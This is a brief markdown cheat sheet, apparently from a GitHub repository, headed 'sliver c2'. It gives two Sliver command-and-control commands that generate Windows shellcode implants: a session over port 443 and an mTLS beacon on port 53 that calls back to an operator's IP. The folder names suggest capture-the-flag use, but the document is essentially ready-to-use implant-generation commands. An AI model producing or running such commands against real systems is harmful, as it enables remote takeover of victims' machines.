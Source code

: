 # sliver c2
#UTILS


## Generate a Session 
```
generate -m <ip>:443 -G -l -f shellcode --os windows -s /opt/CTFPacker/Linux
```


## Generate a Beacon 
```
generate beacon --mtls <ip>:53 --os windows --arch amd64 --format shellcode --save /opt/sliver/pain.raw
```
